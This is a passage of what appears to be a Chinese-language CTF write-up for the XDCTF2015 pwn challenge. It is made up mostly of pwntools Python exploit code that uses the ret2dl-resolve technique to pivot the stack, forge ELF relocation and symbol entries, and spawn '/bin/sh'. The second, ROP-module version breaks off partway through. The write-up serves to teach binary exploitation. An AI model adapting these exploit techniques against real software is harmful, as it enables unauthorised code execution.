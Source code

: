```python
payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(base_stage + 80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc
payload2 += 'B' * align
payload2 += fake_sym
payload2 += "system\x00"
payload2 += 'A' * (80 - len(payload2))
payload2 += '/bin/sh\x00'
payload2 += 'A' * (100 - len(payload2))

p.sendline(payload2)
p.interactive()
```

还有一种使用ROP模块写的

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

### making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
## plus 10 since the size of Elf32_Sym is 16.
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name, 0, 0, 0x12])

```